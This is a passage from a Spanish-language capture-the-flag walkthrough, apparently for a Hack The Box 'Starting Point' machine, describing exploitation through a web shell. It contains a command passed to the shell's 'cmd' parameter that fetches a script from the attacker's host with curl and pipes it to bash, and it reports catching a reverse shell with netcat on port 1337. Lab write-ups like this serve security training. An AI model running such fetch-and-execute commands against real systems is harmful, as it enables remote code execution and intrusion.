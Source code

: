 Si entramos a la página y escribos muestra shell, debemos de poder ver en texto plano el código:

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/three/intrusion5.png" alt="under" oncontextmenu="return false;">
</div>

Lo que debemos hacer es en la variable `cmd` ejecutar:

```bash
curl 10.10.16.84:8000/lian.sh|bash
```

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/three/intrusion6.png" alt="under" oncontextmenu="return false;">
</div>

Y revisando nuestra terminal vemos que el servidor web montado con Python ha recibido una petición Get. Y por el puerto 1337 con netcat hemos recibido una conexión. 

<div style="text-align: center;">